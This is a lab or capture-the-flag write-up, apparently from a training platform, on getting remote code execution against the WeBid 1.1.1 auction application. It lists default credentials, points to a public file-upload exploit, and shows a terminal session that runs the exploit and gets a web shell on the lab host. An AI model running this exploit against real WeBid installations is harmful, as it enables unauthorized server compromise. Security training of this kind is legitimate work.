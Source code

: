 #### 4. WeBid

- The attacker might not have any user level access to the web application. However, this does not mean that the application cannot be compromised remotely. Remote Code Execution vulnerabilities could be triggered even by unauthenticated users.
- In the exercise below, the attacker is unauthenticated to the web application and needs to find a remote code injection attack to run arbitrary commands on the server.
- A version of WeBid is vulnerable to a remote code execution attack.
- Objective: Your task is to find and exploit this vulnerability.

```
Username: admin
Password: password
```

----

- Identify Version of WeBid

[`renlok/WeBid/docs`](https://github.com/renlok/WeBid/tree/master/docs)

![](images/4/1.png)

![](images/4/2.png)

![](images/4/3.png)

- Telegram - `@GetSploitBot`

![](images/4/4.png)

[`WeBid 1.1.1 Unrestricted File Upload Exploit`](https://vulners.com/zdt/1337DAY-ID-23323)

![](images/4/5.png)

```sh
root@kali:~# php 23323.php m94kcvqznmji2iv4nt0mxroi1.public2.attackdefenselabs.com /

+----------------------------------------+
| WeBid Unrestricted File Upload Exploit |
+----------------------------------------+


Exploiting...Waiting for shell...

  ,--^----------,--------,-----,-------^--,
  | |||||||||   `--------'     |          O
  `+---------------------------^----------|
    `\_,-------, _________________________|
      / XXXXXX /`|     /
     / XXXXXX /  `\   /
    / XXXXXX /\______(
   / XXXXXX /
  / XXXXXX /   .. CWH Underground Hacking Team ..
 (________(
  `------'

Webid-shell# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Webid-shell# uname -a
Linux attackdefense.com 4.15.0-42-generic #45-Ubuntu SMP Thu Nov 15 19:32:57 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

Webid-shell#
```

![](images/4/6.png)

----

EOF
